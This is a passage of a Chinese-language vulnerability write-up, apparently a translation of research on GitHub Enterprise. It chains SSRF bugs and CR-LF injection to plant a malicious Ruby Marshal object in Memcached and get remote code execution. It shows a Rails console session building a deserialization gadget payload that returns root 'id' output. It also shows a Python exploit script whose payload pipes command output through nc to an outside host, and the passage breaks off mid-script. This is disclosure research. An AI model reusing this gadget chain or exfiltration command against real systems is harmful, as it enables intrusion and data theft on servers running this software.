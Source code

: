 **第四个漏洞-不安全的反序列化**

目前为止，我们已经能够在HTTP协议中利用其他的协议或嵌入Payload了，但是接下来的问题就是，我应该选择哪一个协议呢？如果我能够控制Redis或Memcached的话，我能够触发哪一个漏洞呢？

我花了很多时间来弄清楚上面这些问题，在检查相关源代码的过程中，我比较想知道GitHub为什么会在Memcached中存储Ruby对象。在研究了一阵子之后，我发现GitHub Enterprise使用RubyGem mecached来处理缓存，而缓存的封装是通过Marshal实现的。这就非常棒了，因为所有人都知道Marshal是非常危险的，所以我们接下来的目标就非常清晰了。

我准备使用之前的SSRF漏洞执行链在Memcached中存储恶意Ruby对象。当GitHub下一次获取缓存时，RubyGem memcached将会自动对数据进行反序列化操作，而结果就是…要爆炸！！因为我们在GitHub上实现了远程代码执行（RCE）。

Rails控制台中不安全的Marshal：



```
irb(main):001:0&gt; GitHub.cache.class.superclass
=&gt; Memcached::Rails
irb(main):002:0&gt; GitHub.cache.set("nogg", "hihihi")
=&gt; true
irb(main):003:0&gt; GitHub.cache.get("nogg")
=&gt; "hihihi"
irb(main):004:0&gt; GitHub.cache.get("nogg", :raw=&gt;true)
=&gt; "x04bI"vhihihix06:x06ET"
irb(main):005:0&gt; code = "`id`"
=&gt; "`id`"
irb(main):006:0&gt; payload = "x04x08" + "o"+":x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy"+"x07" + ":x0E@instance" + "o"+":x08ERB"+"x07" + ":x09@src" + Marshal.dump(code)[2..-1] + ":x0c@lineno"+ "ix00" + ":x0C@method"+":x0Bresult"
=&gt;
"u0004bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxya:u000E@instanceo:bERBa:t@srcI"t`id`u0006:u0006ET:f@linenoiu0000:f@method:vresult"
irb(main):007:0&gt; GitHub.cache.set("nogg", payload, 60, :raw=&gt;true)
=&gt; true
irb(main):008:0&gt; GitHub.cache.get("nogg")
=&gt; "uid=0(root) gid=0(root) groups=0(root)n"
```

没错，就是这样。现在我们重新梳理一下整个过程：

1.第一个SSRF漏洞，可以绕过WebHook中现有的保护机制。

2.第二个SSRF漏洞，存在于Graphite服务之中。

3.结合第一个和第二个SSRF漏洞，组成SSRF漏洞执行链。

4.SSRF执行链中的CR-LF注入。

5.利用Memcached协议，注入恶意Marshal对象。

6.触发远程代码执行。

[![](https://p4.ssl.qhimg.com/t01385c4a3784c3aaaf.png)](https://p4.ssl.qhimg.com/t01385c4a3784c3aaaf.png)



**漏洞利用代码**

```
#!/usr/bin/python
 from urllib import quote
   ''' set up the marshal payload from IRB
 code = "`id | nc orange.tw 12345`"
 p "x04x08" + "o"+":x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy"+"x07" + ":x0E@instance" + "o"+":x08ERB"+"x07" + ":x09@src" + Marshal.dump(code)[2..-1] + ":x0c@lineno"+ "ix00" + ":x0C@method"+":x0Bresult"
 '''
 marshal_code = 'x04x08o:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxyx07:x0e@instanceo:x08ERBx07:t@srcI"x1e`id | nc orange.tw 12345`x06:x06ET:x0c@linenoix00:x0c@method:x0bresult'
   payload = [
 '',
 'set githubproductionsearch/queries/code_query:857be82362ba02525cef496458ffb09cf30f6256:v3:count 0 60 %d' % len(marshal_code),
```